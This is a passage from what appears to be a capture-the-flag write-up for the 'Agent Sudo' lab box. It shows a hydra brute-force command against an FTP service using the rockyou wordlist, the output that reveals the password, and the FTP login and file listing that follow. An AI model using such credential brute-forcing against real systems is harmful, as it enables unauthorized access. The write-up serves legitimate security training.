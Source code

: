 ![2.png](/Easy_Boxes/Agent_Sudo/img/2.png)

``Answer:`` Chris

##### Done Enumerate the machine? Time to brute your way out.

``Question 4``: FTP password
Let's use ``hydra`` to brute force the ``FTP ``password

```r
hydra -l chris -P /usr/share/wordlists/rockyou.txt -u -f ftp://10.10.45.45 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-30 20:08:58
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.45.45:21/
[21][ftp] host: 10.10.45.45   login: chris   password: crystal
[STATUS] attack finished for 10.10.45.45 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```
``Answer:`` crystal

Let's check the content of the ftp server
``Question 5:`` Zip file password

```r
ftp 10.10.45.45
Connected to 10.10.45.45.
220 (vsFTPd 3.0.3)
Name (10.10.45.45:dcyberguy): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||41008|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
```
Let's download all file with the ``get`` tag
